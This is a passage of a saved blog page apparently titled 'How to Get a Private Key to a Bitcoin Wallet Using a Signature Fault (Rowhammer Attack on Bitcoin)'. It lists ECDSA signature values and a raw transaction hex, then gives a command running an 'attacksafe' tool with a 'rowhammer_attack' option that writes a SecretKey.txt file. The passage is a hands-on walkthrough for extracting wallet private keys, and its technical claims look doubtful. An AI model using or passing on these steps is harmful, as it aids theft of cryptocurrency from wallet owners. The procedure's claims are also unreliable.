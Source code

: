 

<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-144-1024x245.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1250"></figure>



<pre class="wp-block-code"><code>R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool rowhammer_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-145-1024x299.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1252"></figure>
